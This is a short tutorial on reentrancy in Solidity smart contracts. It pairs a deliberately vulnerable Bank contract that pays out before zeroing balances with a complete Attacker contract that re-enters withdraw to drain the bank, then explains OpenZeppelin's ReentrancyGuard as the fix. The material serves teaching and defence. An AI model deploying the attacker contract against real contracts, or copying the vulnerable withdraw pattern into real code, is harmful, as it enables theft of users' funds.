 ## What is reentrancy ?

Its calling any function of a smart contract while that function is being called. 

Mostly this function is the withdraw function. 

## Suppose there is a bank account smart contract which is vulnerable 

//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract Bank {
    using Address for address payable;

    mapping(address => uint256) public balanceOf;

    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 depositedAmount = balanceOf[msg.sender];
        payable(msg.sender).sendValue(depositedAmount);
        balanceOf[msg.sender] = 0;
    }
}


## Now the attacker can make a smart contract to attack the bank smart contract which calls the deposit and withdraw functions simultaneously. And it keeps recieving the funds till the balance of the bank is exhausted 

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";

interface IBank {
  function deposit() external payable;
  function withdraw() external;
}

contract Attacker is Ownable {
  IBank public immutable bankContract;

  constructor(address bankContractAddress) {
    bankContract = IBank(bankContractAddress);
  }

  function attack() external payable onlyOwner {
    bankContract.deposit{ value: msg.value }();
    bankContract.withdraw();
  }

  receive() external payable {
    if (address(bankContract).balance > 0) {
      bankContract.withdraw();
    } else {
      payable(owner()).transfer(address(this).balance);
    }
  }
}


## How is the reentrancy done in this case ?

First of all the attacker calls the attack function which calls the deposit and withdraw function of the bank contract. 

As soon as the withdraw function is executed, the recieve function of attacker smart contract is executed. And that smart contract runs a loop of withdraw function till the balance is exhausted. 

Then all the balance of the contract is transferred to the attacker account (owner of the attack smart contract)



## How to protect smart contracts from reentrancy ?

- import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

- contract Bank is ReentrancyGuard {

- attach nonReentrant to withdraw function to protect against reentrancy 
(Inside the library, there is a simple variable whose value is set to 1 and 2 when we use the withdraw once, the value changes to 2. Any calls after the first call will fail)
..}


